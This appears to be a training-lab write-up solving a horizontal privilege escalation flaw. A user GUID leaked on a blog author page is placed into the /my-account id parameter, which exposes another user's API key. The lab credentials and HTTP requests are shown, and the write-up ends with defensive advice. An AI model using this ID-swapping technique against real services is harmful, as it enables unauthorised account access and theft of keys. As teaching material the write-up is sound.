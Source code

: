### Lab 6 User ID controlled by request parameter, with unpredictable user IDs  
**Apprentice**

---

#### Mission Description  
The lab has a horizontal privilege escalation issue on the account page. Users are identified by GUIDs instead of simple IDs.  

---

#### Mission Objective  
Find **Carlos’s GUID**, use it in the request to `/my-account`, and grab his API key.  

---

#### Steps  
1. Log in with the given credentials:  

wiener:peter

2. Go to **My Account** and notice the request:  

GET /my-account?id=cee1597a-9c83-4a1c-ac33-eae19ca390d9 HTTP/2

→ Response shows your username (wiener) and your API key.  
3. Explore the **Blogs** section.  
4. Click on an author’s profile → notice the URL leaks a **GUID**:  

/blogs?userId=391f068a-1c52-47a1-bc1e-98f479bd9dd0

5. That post was published by **Carlos** → his GUID is exposed here.  
6. Replace the `id` parameter in the `/my-account` request with Carlos’s GUID:  

GET /my-account?id=391f068a-1c52-47a1-bc1e-98f479bd9dd0

7. Response shows:  

Your username is: carlos
Your API Key is: 4IA8tQ6B6zMFPbOVGUeVW3bv5aJzePMt


---

#### Final Step  

GET /my-account?id=391f068a-1c52-47a1-bc1e-98f479bd9dd0 HTTP/2


---

#### Notes  
- Even though GUIDs look unpredictable, if they’re exposed elsewhere (like blogs/authors), attackers can still harvest them.  
- Always validate ownership server-side instead of trusting user-supplied IDs.  

---

**Status: Solved ✅**

